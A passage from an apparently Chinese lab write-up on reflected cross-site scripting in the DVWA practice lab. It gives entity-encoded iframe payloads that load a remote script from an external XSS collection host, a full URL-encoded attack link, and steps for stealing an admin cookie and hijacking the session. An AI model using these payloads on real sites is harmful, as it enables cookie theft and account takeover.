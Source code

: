 ```js
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#120;&#115;&#115;&#46;&#112;&#116;&#47;&#71;&#70;&#76;&#88;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>

2.实体16进制编码
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x20;&#x73;&#x52;&#x43;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3A;&#x2F;&#x2F;&#x78;&#x73;&#x73;&#x2E;&#x70;&#x74;&#x2F;&#x47;&#x46;&#x4C;&#x58;&#x22;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E;>
```

这里我用到dvwa靶场的medium级别。为了更好的验证，我使用了username为1337的用户进行登录。

这里我先构造js代码测试出这里存在反射型xss漏洞

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9f85be122de8b0e9782959fca7733a74134fc842.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9f85be122de8b0e9782959fca7733a74134fc842.jpg)

然后构造链接

```js
 http://192.168.1.3/dvwa/vulnerabilities/xss_r/?name=%3Ciframe WIDTH%3D0 HEIGHT%3D0 srcdoc%3D%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%26%23x3C%3B%26%23x73%3B%26%23x43%3B%26%23x52%3B%26%23x69%3B%26%23x50%3B%26%23x74%3B%26%23x20%3B%26%23x73%3B%26%23x52%3B%26%23x43%3B%26%23x3D%3B%26%23x22%3B%26%23x68%3B%26%23x74%3B%26%23x74%3B%26%23x70%3B%26%23x73%3B%26%23x3A%3B%26%23x2F%3B%26%23x2F%3B%26%23x78%3B%26%23x73%3B%26%23x73%3B%26%23x2E%3B%26%23x70%3B%26%23x74%3B%26%23x2F%3B%26%23x47%3B%26%23x46%3B%26%23x4C%3B%26%23x58%3B%26%23x22%3B%26%23x3E%3B%26%23x3C%3B%26%23x2F%3B%26%23x73%3B%26%23x43%3B%26%23x72%3B%26%23x49%3B%26%23x70%3B%26%23x54%3B%26%23x3E%3B%3E#
```

然后再用admin账户登录，级别为low。复制构造好的网址并访问

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-476397b822ee1deb80cc5fda74ba4ae551a5e2f9.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-476397b822ee1deb80cc5fda74ba4ae551a5e2f9.jpg)

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9c016911df0e4392802c1163ee69af5d25a7b061.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9c016911df0e4392802c1163ee69af5d25a7b061.jpg)

然后就盗取到该cookie了，看到cookie值security=low，正好是我们设置的low级别，得知盗取admin账户的cookie成功了

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-20e61c759b0563b4921e739a90be8cdaa25efc70.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-20e61c759b0563b4921e739a90be8cdaa25efc70.jpg)

最后按F12，点击Application这一栏，将其中的cookie修改为我盗取到的admin的cookie，再刷新界面，可以看到我们变成了admin的账户，级别也变为low了

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5a13c73efeae55208dea33ec5a8396f73f34a8d2.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5a13c73efeae55208dea33ec5a8396f73f34a8d2.jpg)

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6a63f03fd528820ea4562a5f3edd45d006e45e6e.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6a63f03fd528820ea4562a5f3edd45d006e45e6e.jpg)
